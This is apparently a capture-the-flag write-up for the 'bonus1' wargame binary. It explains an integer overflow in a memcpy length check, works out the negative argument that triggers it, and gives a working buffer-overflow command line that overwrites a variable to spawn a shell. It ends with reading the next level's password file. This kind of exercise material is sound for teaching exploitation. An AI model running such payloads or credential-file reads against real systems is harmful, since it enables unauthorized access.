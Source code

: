 # bonus1 Exploit

## Steps

### 1. Understand the Vulnerability

The binary `bonus1` has a vulnerability that allows a buffer overflow. We need to exploit this to execute a shell.

### 2. Analyze the Source Code

The key operations in the `main` function are:
- Convert the first argument to an integer using `atoi`.
- Check if the integer is less than or equal to 9.
- Copy the second argument to a buffer using `memcpy`.
- If the integer equals `0x574f4c46`, execute a shell.

### 3. Determine the Exploit Strategy

To exploit this, we need to:
- Use a negative number for the first argument that results in an overflow when multiplied by 4.
- Overwrite the buffer and the integer variable to trigger the shell execution.

### 4. Calculate the Appropriate Negative Value

We need the result of `num * 4` to overflow to 44 bytes, covering the 40-byte buffer plus 4 bytes to overwrite the integer.

1. **Determine the Overflow Calculation**:
    ```
    num * 4 = 44 - (UNSIGNED_INT_MAX + 1)
    num * 4 = 44 - 4294967296
    num * 4 = -4294967252
    num = -4294967252 / 4
    num = -1073741813
    ```

2. **Binary Representation Check**:
    - `-1073741813` in binary properly aligns to cause the overflow.

### 5. Craft the Exploit Command

1. **First Argument**:
    - Use `-1073741813` as the first argument.
2. **Second Argument**:
    - Construct a payload to fill the buffer and overwrite the integer.

```sh
./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

- `-1073741813`: The calculated negative value.
- `$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`: The payload to fill the buffer with 40 'A's and then `0x574f4c46` (little-endian) to overwrite the integer.

### 6. Execute the Exploit

Run the crafted payload:
```sh
./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

### 7. Verify the Exploit

If successful, the command should trigger a shell:
```sh
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
```
Retrieve the flag from the output.